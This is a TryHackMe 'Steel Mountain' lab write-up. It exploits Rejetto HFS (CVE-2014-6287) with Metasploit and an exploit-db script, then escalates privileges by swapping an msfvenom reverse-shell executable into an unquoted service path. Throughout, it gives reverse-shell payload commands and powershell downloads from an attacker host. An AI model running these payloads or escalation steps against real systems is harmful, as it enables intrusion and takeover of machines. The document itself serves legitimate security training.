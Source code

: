 ![Steel Mountain Logo](https://tryhackme-images.s3.amazonaws.com/room-icons/c9030a2b60bb7d1cf4fcb6e5032526d3.jpeg)
```
Steel Mountain
Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.
```

```
IP Address: 10.10.253.201, 10.10.230.176
```

```
Task #1 : Introduction
```
Deploy the machine.

1. Who is the employee of the month? => Bill Harper // As soon as we load the web-page there is an image opening the image in different tab shows file name to be BillHarper.png

```
Task #2 : Initial Access
```
Now you have deployed the machine, lets get an initial shell!

1. Scan the machine with nmap. What is the other port running a web server on? => 8080 //nmap -sC -sT 10.10.253.201 -oN nmap/initial.txt
2. Take a look at the other web server. What file server is running? => Rejetto Http File Server // Open the port 8080 and notice the file server link.
3. What is the CVE number to exploit this file server? => 2014-6287 // Quick googling of HFS 2.3 leads to CVE
4. Use Metasploit to get an initial shell. What is the user flag? => ********************************
	1. msfconsole
	2. search cve-2014-6287
	3. use windows/http/rejetto_hfs_exec
	4. set RHOSTS $IP
	5. set RPORT 8080
	6. set SRVHOST local ip
	7. Show payloads
	9. set payload windows/meterpreter/reverse_tcp
	10. We have a shell
	11. once meterpreter shell is up > search -f user.txt
	12. cd C:\Users\bill\Desktop // cat user.txt 

```
Task #3 : Privilege Esclation
```
Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!


1. To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

	1. wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
	2. mv file to /opt/Powersploit/Privesc
	3. chmod 600 PowerUp.ps1
	4. now from meterpreter session upload the file.
	5. now load powershell in meterpreter
	6. now enter powershell_shell this will load run the powershell in meterpreter session
	7. run the uploaded file . .\Powerup.ps1
	8. now run the command Invoke-AllChecks to perform PrivEsc
2. Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name? => AdvancedSystemCareService9
	1. Check the list displayed after Invoke-AllChecks command
	2. One of the service name AdvancedSystemCareService9 has canRestart premission set to True.
3. The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
Use msfvenom to generate a reverse shell as an Windows executable.
	1. msfvenom -p windows/shell_reverse_tcp LHOST=10.8.20.244 LPORT=4449 -e x86/shikata_ga_nai -f exe -o ASCService.exe
	2. upload the file using upload module in meterpreter
	3. in meterpreter type shell and press enter
	4. run the command to stop the AdvancedSystemCareService9 service //sc stop AdvancedSystemCareService9
	5. COPY ASCService.exe to C:\Program Files (x86)\IObit\Advanced SystemCare
4. 	What is the root flag? => ********************************
	1. sc start AdvancedSystemCareService9
	2. crt c
	3. background the meterpreter session
	4. sessions command will show you the new session created
	5. sessions -i 5 and enter
	6. cd C://Administrator/Desktop
	7. read root.txt using type command

```
Task #4 Access and Escalation Without Metasploit
```
Now let's complete the room without the use of Metasploit.
For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

1. To begin we shall be using the same CVE. However, this time let's use this exploit.
*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*
To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!
You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!
	1. Download the exploit from https://www.exploit-db.com/exploits/39161 or use searchsploit
	2. Download the netcat binary from https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe and rename it to nc.exe
	3. Now open the exploit file in text editor and change the local IP address to the one you are working on and port of your choice.
	4. Now in termail run nc -lvnp on port you entered in the exploit file
	5. Run a pythom -m SimpleHTTPServer 80 from the directory you have nc.exe in
	6. now run the exploit using python exploit.py <target_ip> <port>
	7. Notice the python web server getting populated and the netcat binary is uploaded successfully to the target server
	8. Now re run the exploit and notice you have a shell.
2. Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.
Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running. 
What powershell -c command could we run to manually find out the service name?
*Format is "powershell -c "command here"* => Get-Service
	1. In the shell run powershell -c Get-Service
	2. to upload winPEAS to toarget download the winPEAS.exe file and place it in same directory where pytom server is running
	3. Now from target shell execute powershell -c wget "http://10.8.20.244:80/winPEASx86.exe" -outfile "winPEASx64.exe"
	4. winPEAS is uploaded successfully
3. Now let's escalate to Administrator with our new found knowledge.
Generate your payload using msfvenom and pull it to the system using powershell.
Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.
First we need to stop the service which we can do like so;
sc stop AdvancedSystemCareService9
Shortly followed by;
sc start AdvancedSystemCareService9
Once this command runs, you will see you gain a shell as Administrator on our listener!
	1. Just like earlier create a payload using msfvenom and name it ASCService.exe
	2. Copy the payload in the dirctory used as python HTTPServer
	3. Now stop the AdvancedSystemCareService9 using sc stop AdvancedSystemCareService9
	4. Upload the ASCService.exe in the same directory where normal ASCService.exe is placed
	5. use the command to do so powershell -c wget "http://10.8.20.244:80/ASCService.exe" -outfile "ASCService.exe"
	6. In a terminal run nc -lvnp <given_port> and press enter
	7. Now run sc start AdvancedSystemCareService9
	8. Check the new netcat connection and notice you a root shell.
